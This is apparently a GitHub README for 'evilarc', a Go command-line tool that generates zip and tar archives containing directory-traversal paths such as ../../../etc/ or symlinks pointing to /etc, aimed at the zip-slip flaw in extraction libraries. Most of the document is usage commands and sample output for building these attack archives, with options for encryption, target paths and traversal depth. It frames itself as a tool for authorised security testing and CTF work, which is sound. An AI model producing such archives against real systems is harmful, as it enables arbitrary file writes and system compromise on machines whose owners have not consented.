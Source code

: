 # evilarc

> Legal Disclaimer: This tool is only intended for legally authorized enterprise security construction activities,
> such as internal attack and defense drills, vulnerability verification, and retesting.
>
> If you need to test the usability of this tool, please build your own target environment.
> When using this tool for testing, you should ensure that the behavior complies with local laws and
> regulations and has obtained sufficient authorization. Do not use against unauthorized targets.
>
> If you engage in any illegal behavior during the use of this tool,
> you shall bear the corresponding consequences on your own, and we will not assume any legal or joint liability

evilarc implementing with go, lets you create a zip file that contains files with directory traversal characters or symlink in their embedded path.

Compare with [evilarc](https://github.com/ptoomey3/evilarc), it supports 
- [x] run without dependency
- [x] zip encryption
- [x] symlinks attack.
- [ ] add evil file in compress file with exist file or folder
- [ ] archive(zip) bomb?

## 0x01 Background

Most commercial zip program (winzip, etc.) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.

However, some software development libraries do not include these same protection mechanisms. (ex. Golang, Java, PHP, Python etc.)

If a program and/or library does not prevent directory traversal characters then evilarc can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

In *unix system, there may also be symlinks attacks

**My intention of writing this tool was to facilitate security testing during SDLC work and CTF.**
+ Attack in CTF: [CISCN2021 babypython](https://buuoj.cn/challenges)、 [2021深育杯 zipzip](https://xz.aliyun.com/t/10533#toc-4)、etc....
+ Attack in RealWorld:
  You can find much CVE or Framework fix this vulnerability, welcome to add here.

## 0x02 Usage

### 0x01 Path Traversal
1. generate attack zip file without any param
```shell
> evilarc travel

2023/12/09 17:27:35 The filename in the archive is: ../../../../../../../../etc/test_arc.txt
2023/12/09 17:27:35 [+] generate: evil.zip
```

2. generate attack zip file without zip password
```shell
> evilarc travel --travel-file 1.test

2023/12/09 17:01:05 The filename in the archive is: ../../../../../../../../etc/1.test
2023/12/09 17:01:05 [+] generate: evil.zip
```

3. generate attack zip file without zip password for specify unzip path
```shell
> evilarc travel --travel-file 1.test --travel-target tmp

2023/12/09 17:01:49 The filename in the archive is: ../../../../../../../../tmp/1.test
2023/12/09 17:01:49 [+] generate: evil.zip
```

4. generate attack zip file with empty zip password
```shell
> evilarc travel --zip-enc standard

2023/12/09 17:27:57 The filename in the archive is: ../../../../../../../../etc/test_arc.txt
2023/12/09 17:27:57 [+] generate: evil.zip
```

5. generate attack zip file with zip password
```shell
> evilarc travel --zip-enc standard --zip-passwd <password>
```

6. generate attack `tar/tar.gz/tgz/bz2` file (doesn't support encrypt because of these standard)
```shell
> evilarc travel --out xx.[tar.gz,tar,tgz,bz2]
```

7. other help
```shell
> evilarc travel -h

generate directory traversal attack archive

Usage:
  evilarc travel [flags]

Flags:
      --delimiter string        Custom path delimiter, Ex: \/\/ instead of //
  -h, --help                    help for travel
  -o, --out string              Output file, you can also specify xx.[tar.gz,tar,tgz,bz2]  (default "evil.zip")
  -p, --plat string             Platform: [win, unix] (default "unix")
  -d, --travel-depth int        Number of directories to traverse (default 8)
  -f, --travel-file string      Local file you want to traversal, (leave empty will auto generate a file in archive)
  -i, --travel-include string   Local file you want to include
                                 Ex: . or file/folder
  -t, --travel-target string    Path to include in filename after traversal.
                                 Ex: WINDOWS\\System32\\<file> or /etc/<file> (default "/etc")
  -e, --zip-enc string          Zip Encrypt method: [standard, AES128, AES192, AES256]
      --zip-passwd string       Zip password
```

### 0x02 Symlink
1. generate attack zip file without any param
```shell
> evilarc symlinks

2023/12/09 17:31:29 Relationship of symlink: evil/test_arc.txt -> /etc/test_arc.txt
2023/12/09 17:31:29 [+] generate: sym-evil.zip
```

2. other help
```shell
> evilarc symlinks -h

generate symlinks attack archive

Usage:
  evilarc symlinks [flags]

Flags:
  -h, --help                help for symlinks
  -o, --out string          Output file, you can also specify xx.[tar.gz,tar,tgz,bz2] (default "sym-evil.zip")
  -f, --sym-file string     local file you want to include, (leave empty will auto generate a file in archive)
  -n, --sym-name string     Symlink folder name (default "evil")
  -t, --sym-target string   Path to symlink.
                             Ex: <sym-name> -> /etc (default "/etc")
  -e, --zip-enc string      Encrypt method: [standard, AES128, AES192, AES256]
      --zip-passwd string   Zip password
```

## 0x99 Reference
[1] https://github.com/ptoomey3/evilarc.git
